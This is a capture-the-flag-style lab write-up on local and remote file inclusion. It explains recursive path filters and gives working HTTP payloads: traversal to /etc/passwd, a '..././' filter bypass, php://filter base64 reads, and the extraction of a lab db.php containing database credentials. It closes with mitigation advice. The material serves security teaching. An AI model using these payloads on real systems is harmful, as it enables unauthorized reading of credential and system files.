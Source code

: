 
# 📁 File Inclusion 0x02 - Remote File Inclusion Attacks

---

## 🔄 Recursive Filters Explained

### What Makes a Filter Recursive? 🤔
A recursive filter repeatedly applies its rules to an input until no more undesirable elements are found.  
It is like cleaning a stain: you keep wiping until nothing is left, no matter how many times it takes.  
In programming, this "wiping" is the function calling itself with updated parameters each time, ensuring a thorough cleanup.

---

### How Recursive Filters Work ⚙️
Recursive filters are essential in security contexts where input must be sanitized thoroughly.  
They remove or neutralize harmful sequences (like `../` in paths) by reprocessing the input multiple times, ensuring manipulations like path traversals are caught and cleaned effectively.

---

### Why `./` Is Used and Its Effects 📂
Adding `./` (which means "current directory") in paths, especially mixed with `../` (up one directory), is a technique used to hide malicious intent.  
It complicates the path, potentially confusing simple filters and allowing deeper directory traversal than permitted, unless a recursive filter is in place to catch and resolve these manipulations repeatedly.

---

## 🌐 Lab Answer

### Initial Request
```
GET /labs/fi0x02.php?filename=files%2Fchocolate_cake.txt HTTP/1.1
```

### Exploiting LFI
1. Change the request to:
   ```
   GET /labs/fi0x02.php?filename=../../../../../etc/passwd HTTP/1.1
   ```
2. URL-encode the path using Burp Suite:
   - Highlight the path, right-click, and select "Convert Selection > URL-encode key characters".
3. Test payloads to bypass recursive filters:
   - Add `../` recursively:
     ```
     ..././..././..././..././etc/passwd
     ```
4. Use **PayloadsAllTheThings** for advanced testing:  
   [PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

---

## 🌍 Testing for Remote File Inclusion

### Test Payload
```
GET /labs/fi0x02.php?filename=https://google.com HTTP/1.1
```
- **Outcome:**  
  A successful response confirms a Remote File Inclusion (RFI) vulnerability.

---

## 📊 Examples of File Inclusion Vulnerabilities

### Base64 Encoding to Mask File Paths 🔒
**Example URL:**
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
- Encodes output of files in Base64 to bypass filters and view server-side files.

---

### Extracting Database Credentials 🗝️
**Request:**
```
GET /labs/fi0x02.php?filename=php://filter/convert.base64-encode/resource=..././db.php HTTP/1.1
```
**Decoded Response:**
```php
<?php

$servername = "bb-db";
$username = "bb-labs-user";
$password = "bb-labs-password";
$dbname = "bb-labs";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

```

---

### Remote URL File Inclusion 🌍
**Request:**
```
GET /labs/fi0x02.php?filename=https://google.com HTTP/1.1
```
**Response:**
- Includes the actual content from Google's website, demonstrating the risks of allowing external URL inclusions.

---

## 🛠️ Mitigation
1. **Sanitize Inputs:** Strictly validate and sanitize user inputs to prevent LFI/RFI attacks.  
2. **Disable Remote Inclusion:** Configure server settings to block external file inclusions.  
3. **Monitor Logs:** Regularly review server logs to detect unauthorized access attempts.

---
